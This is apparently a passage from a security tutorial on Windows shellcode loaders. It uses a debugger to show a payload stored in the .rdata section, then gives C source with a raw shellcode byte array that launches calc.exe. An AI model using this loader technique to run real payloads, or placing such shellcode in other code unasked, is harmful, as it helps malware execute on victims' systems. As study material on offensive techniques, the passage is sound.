 
The code includes liberal use of `GetLastError` in order to faciliate debugging.

We'll now look at improving this code as an academic exercise to understand that there is more than one way to skin the proverbial cat.   


## 2 - Payload Location Variation
If we load the compiled program in a debugger (x32dbg), and search for our payload, we'll find it resides within the `.rdata` section:

![payload location in memory](/assets/img/2.png)
_Payload location in executable._

And following this address, within the memory map of the executable, we find it in the `.rdata` section:

![Payload located in .rdata section](/assets/img/3.png)
_Payload located in .rdata section._

Let's move the character array payload location from the `main` function, like so:

```
#include "Windows.h"
#include "stdio.h"

unsigned char payload[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

int main()
{

...
```
